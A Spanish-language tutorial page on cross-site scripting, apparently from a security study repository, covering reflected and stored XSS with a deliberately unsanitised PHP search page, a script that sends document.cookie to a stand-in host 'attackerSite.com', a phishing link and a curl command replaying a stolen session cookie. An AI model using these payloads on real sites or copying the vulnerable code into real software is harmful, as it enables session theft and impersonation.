


[Volver al inicio](../Readme.md)
# XSS (Cross-Site Scripting)
## Introducción.
El ataque XSS consiste en inyectar codigo Javascript malicioso en un sitio web vulnerable, de forma que al ser cargado por un usuario víctima, se ejecute en su navegador dicho código malicioso, con el objetivo de extraer información de la víctima, como por ejemplo, la cookie de sessión. Existen básicamente tres tipos de ataques (sin tener en cuenta los ataques XSS ciegos):
## Tipos de XSS
### XSS Reflejados
Este tipo de ataque se aprovecha de una deficiente o nula sanitización de los parametros de entrada, procedentes por ejemplo, de un formulario HTML del sitio web.



Imaginemos un sitio web que tiene el siguiente código HTML para buscar un producto:
```html
<!DOCTYPE html>
<html>
<head>
    <title>Web XSS</title>
</head>
<body>
    <h2>Busca un producto</h2>
    <form action="xss1.php" method="GET">
        <label for="id_producto">Producto (ID):</label>
        <input type="text" id="id_producto" name="id_producto" required>
        <button type="submit">Enviar</button>
    </form>
</body>
</html>
 ```

 Y el código PHP del lado del servidor que recibe los datos del usuario:
 ```php
 <!DOCTYPE html>
<html>
<head>
    <title>Lector XSS</title>
</head>
<body>

<?php
// Crear conexión
$conn = new mysqli($servername, $username, $password, $database);

// Verificar la conexión
if ($conn->connect_error) {
    die("Error de conexión: " . $conn->connect_error);
}

// Verificar si se proporcionó el parámetro "id_producto" en la URL
if(isset($_GET['id_producto'])) {
    
    /* Aquí realizaría la búsqueda en la base de datos*/

    if ($result->num_rows > 0) {
        // El producto existe en la base de datos
        echo "Realiza alguna acción";
    } else {
        // El producto NO existe en la base de datos
        echo "El producto con el ID " + $_GET['id_producto'] + " no existe en la base de datos.";
    }
} else {
    // Si el parámetro "id_producto" no se proporcionó en la URL
    echo "Debe proporcionar un identificador de producto.";
}

// Cerrar conexión
$conn->close();
?>

</body>
</html>
```

 En el código PHP (que no está sanitizado), observamos que, en caso de que no exista el producto, muestra un mensaje al cliente en el que añade el id del producto buscado. En este caso, si un atacante integra un script malicioso en el campo de búsqueda del producto, dicho script se verá **REFLEJADO** en la respuesta HTML que se envía al cliente y será ejecutado en su navegador.

 Imagina ahora que el script que envía el atacante es el siguiente:

 ```html
 <script>
    var cookies = document.cookie;

    var xhr = new XMLHttpRequest();
    xhr.open('POST', 'https://attackerSite.com/store_cookies.php', true);
    xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    xhr.send('cookies=' + encodeURIComponent(cookies));
</script>
 ```
Este script, envia por POST la cookie de sesión a un sitio web controlado por el atacante, por lo que si un atacante consigue que una víctima ejecute dicho script, estará recibiendo la sesión de la víctima en su sitio malicioso y podrá impersonarla.

Un enlace que podría recibir la víctima a través de un phishing se parecería a la siguiente:

```
http://sitioweblegitimo.com/xss1.php?id_producto=<script>código malicioso</script>
```

Posteriormente, el atacante, previo estudio del funcionamiento del sitio web que pretende atacar y conociendo las peticiones que utiliza el sitio web, puede intentar acciones maliciosas utilizando las cookies robadas:

```
curl -X GET https://sitioweblegitimo.com/protected-page.php -H "Cookie: PHPSESSID=SESSION_ID_ROBADA"

```


!!! ACLARACIÓN:

En este ejemplo, la página web vulnerable utiliza el paso de parámetros mediante GET, lo que facilita el ataque, en caso de utilizar **POST**, no se puede engañar a la víctima mediante un enlace, ya que el método POST no permite enviar los parámetros en forma de enlace.

En este caso la opción puede ser engañar a la víctima para que se conecte a una página web controlada por el atacante y forzarla a ejecutar el script que permita obtener la cookie de sesión.
Una idea puede ser, enviar el payload al servidor que tiene la vulnerabilidad XSS reflejada, la respuesta será la página devuelta por el servidor a la que se le ha añadido el script malicioso. Esta página infectada se aloja en un servidor del atacante y se fuerza por phishing a que la ejecute la víctima. Si se consigue, la víctima estará enviando la cookie al atacante.

Esta forma de atacar, en realidad, sería una suplantación de la página web original más que un XSS reflejado.

### XSS almacenados
En este tipo de vulnerabilidad, el atacante aplica el payload sobre un elemento del sitio web que se almacenará en la base de datos, por ejemplo, podemos pensar en una página web que contiene un blog, en la que por cada noticia, se permiten comentarios de los usuarios y estos se almacenan en la base de datos. Así pues, si un atacante inyecta un payload en uno de los comentarios, cada vez que un usuario acceda al blog y cargue la página que contiene el comentario infectado, estará ejecutando indirectamente el payload subido por el atacante. 



### DOM XSS
## Bibliografía
- Cross-site scripting. PortSwigger. https://portswigger.net/web-security/cross-site-scripting#what-is-cross-site-scripting-xss
- DOM Based XSS. OWASP. https://owasp.org/www-community/attacks/DOM_Based_XSS
- DOM-based XSS. PortSwigger. https://portswigger.net/web-security/cross-site-scripting/dom-based
- el-brujo. (29/09/2021). XSS o Cross‑Site Scripting: tipos de ataque y prevención. elhacker.net. https://blog.elhacker.net/2021/09/xss-o-crosssite-scripting-tipos-de-ataque-y-prevencion.html
- García de Zúñiga, F. (19/10/2022). Ataque XSS: qué es y cómo evitarlo. ARSYS. https://www.arsys.es/blog/ataques-xss-que-son-y-como-evitarlos#Como_evitar_un_ataque_XSS
- García de Zúñiga, F. (24/08/2022). CSP: Content Security Policy. ARSYS. https://www.arsys.es/blog/csp-content-security-policy
- axarnet. (s.f.). Qué es el Cross Site Scripting (XSS) y cómo evitarlo. https://axarnet.es/blog/cross-site-scripting-xss#
- Lázaro, D. (2018). Ataques XSS: Cross-Site Scripting en PHP. https://diego.com.es/ataques-xss-cross-site-scripting-en-php